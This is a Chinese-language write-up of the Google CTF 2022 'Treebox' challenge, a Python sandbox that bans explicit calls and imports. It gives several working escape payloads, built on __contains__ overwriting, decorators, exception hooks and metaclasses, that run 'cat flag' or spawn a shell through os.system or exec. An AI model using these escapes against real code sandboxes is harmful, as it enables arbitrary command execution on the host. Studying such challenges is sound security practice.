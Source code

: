 # TREEBOX

*I think I finally got Python sandboxing right.*

*[Attachment](https://storage.googleapis.com/gctf-2022-attachments-project/17f98f8c9c9f8089ab3a35e94de752582253c3784637fe6ef6a561c12b817fcd7acf05a4573bff2cd43247f8e5263200aa29745605ae2719de774160bb21e301) `treebox.2022.ctfcompetition.com 1337`*

---

<details>
<summary style="display: list-item;">treebox.py</summary>

<div markdown="1">

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```
</div>
</details>

阅读源码,可以发现:

* `flag`在当前工作目录下一个名为`flag`的文件
* 我们可以通过`exec`执行任意代码,但必须通过`verify_secure`函数的检查
* `verify_secure`使用`ast`模块进行分析,不能有显式的函数调用和导入语句
* `os`和`sys`模块可用

思路:

* `os`模块已经导入,我们可以通过`os.system()`方法来执行系统命令
* 借助于Python机制,通过非显式的方式地来调用函数,如内置函数、重载运算符、解释器Hook

我的解法:

在python中使用`in`运算符时,默认会调用`__contains__`方法,并且会将需要判断的对象作为形参传入;

所以我们可以用`os.system`覆盖现有的python对象/类上的`__contains__`方法,然后通过运算符来调用`system`函数.

```python
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```

其他解法:

1. 装饰器

   ```python
   @exec
   @input
   class X:
     pass
   ```

2. 异常

   ```python
   class MyException(Exception):
     def __str__(self):
       return 'cat flag'
   
   sys.stdout.write=os.system
   sys.stderr.write=os.system
   
   raise MyException   
   ```

   ```python
   class X:
       def __init__(self, a, b, c):
           self += "os.system('sh')"
       __iadd__ = exec
   sys.excepthook = X
   1/0
   ```

3. 元类

   ```python
   # This will define the members on the "sub"class
   class Metaclass:
       __getitem__ = exec # So Sub[string] will execute exec(string)
   # Note: Metaclass.__class__ == type
       
   class Sub(metaclass=Metaclass): # That's how we make Sub.__class__ == Metaclass
       pass # Nothing special to do
   
   assert isinstance(Sub, Metaclass)
   sub['import os; os.system("sh")']
   ```



其他Writeup

* [GCTF 2022 Treebox](https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/)

**flag:**`CTF{CzeresniaTopolaForsycja}`